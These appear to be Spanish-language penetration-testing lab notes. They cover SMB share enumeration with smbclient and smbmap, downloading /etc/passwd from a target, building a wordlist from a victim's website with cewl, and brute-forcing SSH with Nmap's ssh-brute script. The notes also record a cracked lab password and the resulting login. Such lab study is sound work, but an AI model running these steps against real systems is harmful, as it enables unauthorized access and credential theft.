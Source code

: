 ### smbclient

- Listar las carpetas compartidas para un sistema remoto: `smbclient -L fileserver`
![](Pasted%20image%2020230531222501.png)

### SMBMap

- Escaneo por defecto: `smbmap -H <ip_objetivo>`
![](Pasted%20image%2020230531223345.png)
- Enumerar un directorio particular: `smbmap -H <ip_objetivo> -r <directory>` 
![](Pasted%20image%2020230531223329.png)
- Una vez encontramos el fichero `/etc/passwd` lo descargamos: `smbmap -H <ip_objetivo> --download <archivo>`
![](Pasted%20image%2020230531224001.png)

## Diccionarios de contraseñas de palabras comunes contra objetivos concretos (Valid Accounts)

- Para saber si los usuarios que hay en un fichero de passwords usan contraseñas que son palabras que se encuentran en una web, y por tanto son fáciles de romper

- Vamos a generar una lista de palabras personalizada a partir del contenido de la página web de una víctima
- Cheatsheet para generar lista de palabras con el **tool cewl**:
![](Pasted%20image%2020230531224324.png)
- Tutorial sobre cómo usar cewl: https://esgeeks.com/como-utilizar-cewl/

- Ejemplo con caracteres mínimos y salida a fichero: `cewl -c -m 5 <ip_objetivo> -w <fichero>`

## Fuerza bruta con Nmap (Valid Accounts)

- Para saber si los usuarios de un servicio remoto  usan una clave de una lista de palabras que tienes, y por tanto, algunas cuentas de usuario son fáciles de romper

- Pasos:
	- Primero hacemos un escaneo rápido con Nmap: `sudo nmap -sV -sS <ip_objetivo>` ![](Pasted%20image%2020230531224951.png)
	- Localiza los scripts NSE adecuados que usen técnicas de fuerza bruta en `/usr/share/nmap/scripts`
	 ![](Pasted%20image%2020230531225133.png)
	 - Usa el hecho de que sabemos que un usuario válido en el sistema es `remotessiuser`
	 - SOLUCIÓN:
		 - Usaremos el script `ssh-brute`
		 - Usaremos el siguiente comando: `nmap -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst <target>`![](Pasted%20image%2020230531230035.png)![](Pasted%20image%2020230531230046.png)
		 - Obtenemos la password `ingenieriainformatica`
		 - Nos podemos conectar por ssh ![](Pasted%20image%2020230531230351.png) ![](Pasted%20image%2020230531230407.png)
